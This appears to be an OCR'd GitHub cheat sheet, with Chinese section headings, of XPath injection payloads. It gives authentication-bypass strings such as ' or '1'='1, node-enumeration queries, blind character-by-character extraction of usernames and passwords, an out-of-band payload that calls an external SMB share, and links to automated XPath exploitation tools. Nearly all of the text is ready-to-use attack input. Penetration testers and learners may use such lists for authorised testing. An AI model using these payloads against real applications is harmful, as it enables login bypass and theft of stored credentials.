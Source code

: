   #### 类似sql注入
	"string(//user[name/text()='" +vuln_var1+ "' and password/text()=’" +vuln_var1+ "']/account/text())"
	' or '1'='1
	' or ''='
	x' or 1=1 or 'x'='y
	/
	//
	//*
	*/*
	@*
	count(/child::node())
	x' or name()='username' or 'x'='y
	' and count(/*)=1 and '1'='1
	' and count(/@*)=1 and '1'='1
	' and count(/comment())=1 and '1'='1
	search=')] | //user/*[contains(*,'
	search=Har') and contains(../password,'c
	search=Har') and starts-with(../password,'c
  #### 盲注
	字符串的大小
	and string-length(account)=SIZE_INT
	提取一个字符
	substring(//user[userid=5]/username,2,1)=CHAR_HERE
	substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
  #### OOB
  	http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')
  #### 工具
  	https://github.com/orf/xcat
	https://github.com/feakk/xxxpwn
	https://github.com/aayla-secura/xxxpwn_smart
	https://github.com/micsoftvn/xpath-blind-explorer
	https://github.com/Harshal35/XMLCHOR